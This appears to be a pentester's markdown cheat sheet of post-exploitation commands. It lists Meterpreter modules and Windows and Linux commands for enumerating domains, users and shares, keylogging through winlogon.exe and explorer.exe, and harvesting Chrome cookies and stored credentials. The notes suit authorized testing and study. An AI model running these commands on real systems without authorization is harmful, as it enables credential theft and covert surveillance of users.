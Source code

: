 # Gather info
## Metasploit
* `meterpreter> run post/windows/gather`
* `meterpreter> run post/linux/gather`
* `meterpreter> run enum_domains`
* `meterpreter> run post/windows/gather/enum_ad_users`
* `meterpreter> run enum_shares`
* `meterpreter> run enum_applications`

## Windows
* `net view /domain`
* `net group "<domain-name>" /domain` - get list of domain controllers
* `net users`
* `net localgroup`
* `net localhroup <group-name>`
* `net share`

## Linux
* `cat /etc/passwd`

## Cool resources
* Windows
    * https://docs.google.com/document/d/1U10isynOpQtrIK6ChuReu-K1WHTJm4fgG3joiuz43rw/edit?hl=en_US
    * https://tim3warri0r.blogspot.com/
* Linux
    * https://docs.google.com/document/d/1ObQB6hmVvRPCgPTRZM5NMH034VDM-1N-EWPRz2770K4/edit?hl=en_US
    * https://book.hacktricks.xyz/linux-hardening/linux-post-exploitation
* OSX        - https://docs.google.com/document/d/10AUm_zUdAQGgoHNo_eS0SO1K-24VVYnulUD2x3rJD3k/edit?hl=en_US
* Metasploit - https://docs.google.com/document/d/1ZrDJMQkrp_YbU_9Ni9wMNF2m3nIPEA_kekqqqA2Ywto/edit?pref=2&pli=1


# Gather data
## Metasploit
* `meterpreter> run scraper`
* `meterpreter> run winenum`
* `meterpreter> screenshot`
* keylogging
   * screen unlock          -> attach process to __winlogon.exe__
   * application keystrokes -> attach processes to __explorer.exe__
   * `meterpreter> keyscan_start` - start sniffer
   1. `meterpreter> keyscan_dump` - print keystrikes on screen
   2. `meterpreter> keyscan_stop` - stop sniffer
  </br>or</br>
   * `meterpreter> keylogrecorder` - start sniffer
 * `meterpreter> run post/windows/gather/credentials` - double tab to see all modules
 * `meterpreter> run post/windows/gather/enum_chrome` - chrome data: cookies, credentials, history
 * `meterpreter> run post/windows/gather/credentials/credential_collector`
 * `meterpreter> run post/multi/gather` - double tab to see all modules

## Cool resources
* https://wiki.zacheller.dev/pentest/post-exploitation/file-transfers

